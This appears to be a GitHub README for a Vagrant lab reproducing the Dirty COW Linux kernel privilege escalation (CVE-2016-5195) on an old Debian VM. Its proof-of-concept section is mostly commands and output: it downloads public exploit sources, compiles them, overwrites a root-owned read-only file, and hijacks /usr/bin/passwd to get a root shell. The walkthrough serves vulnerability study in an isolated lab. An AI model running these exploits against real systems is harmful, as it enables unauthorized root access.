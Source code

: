 # CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."

## vagrant up

```
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
```

## vagrant ssh

```
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
```

# POC

## dirtyc0w 

exploited

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

## cowroot.c

compile error

```
$ wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
$ gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
In file included from cowroot.c:27:0:
/usr/include/unistd.h:331:16: note: expected '__off_t' but argument is of type 'void *'
```

## pokemon.c

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
$ echo pikachu|sudo tee pokeball;ls -l pokeball;gcc -pthread pokemon.c -o d;./d pokeball miltank;cat pokeball
pikachu
-rw-r--r-- 1 root root 8 Feb 12 02:09 pokeball
pokeball
   (___)
   (o o)_____/
    @@ `     \
     \ ____, /miltank
     //    //
    ^^    ^^
mmap 7f3aec09e000
madvise 0
ptrace 0
```

## c0w.c

got root

```
vagrant@debian-780-wheezy:~/c0w $get https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
vagrant@debian-780-wheezy:~/c0w$ gcc -pthread c0w.c  -o c0w
vagrant@debian-780-wheezy:~/c0w$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 2df04000

madvise 0

ptrace 0

vagrant@debian-780-wheezy:~/c0w$ /usr/bin/passwd
root@debian-780-wheezy:/home/vagrant/c0w# whoami
root
```



# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195


